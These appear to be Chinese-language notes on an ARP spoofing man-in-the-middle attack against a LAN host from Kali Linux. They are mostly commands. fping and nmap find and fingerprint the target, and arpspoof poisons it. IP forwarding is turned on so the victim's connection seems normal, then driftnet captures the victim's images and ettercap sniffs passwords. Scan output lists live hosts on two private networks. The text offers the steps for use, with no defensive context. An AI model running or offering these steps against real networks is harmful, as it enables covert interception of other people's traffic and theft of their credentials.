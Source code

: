 ### ARP域网攻击

配置动态ip

auto eth0
iface eth0 inet dhcp

重启网卡

service networking restart

##先查看本地ip 网关 网段

ip a 或 ifconfig   route -n(网关)

192.168.78.2

###获取目标IP ###

root@kali:~# fping -g 192.168.78.0/24 |grep 'alive' 

192.168.78.1 is alive
192.168.78.2 is alive （本机）  
192.168.78.151 is alive （kali ip）
192.168.78.154 is alive  （目标主机）

######

192.168.0.1 is alive
192.168.0.100 is alive
192.168.0.102 is alive
192.168.0.113 is alive
192.168.0.129 is alive 我
192.168.0.110 is alive
192.168.0.152 is alive
192.168.0.189 is alive
192.168.0.159 is alive
192.168.0.190 is alive

#####目标IP系统探测

nmap -T4 -O 192.168.78.154

#####开始arp数据劫持  （给目标主机造成断网假象）

arpspoof -i eth0 -t 192.168.78.154  192.168.78.1 

##开启ip转发（新建标签输入）

echo 1 > /proc/sys/net/ipv4/ip_forward 

cat /proc/sys/net/ipv4/ip_forward 

1

这时网络恢复正常

###开始图片嗅探：

driftnet -i eth0

driftnet ‐i eth0 172.20.10.2

 ##开始密码嗅探：

bettercap -x 

ettercap -Tq -i eth0

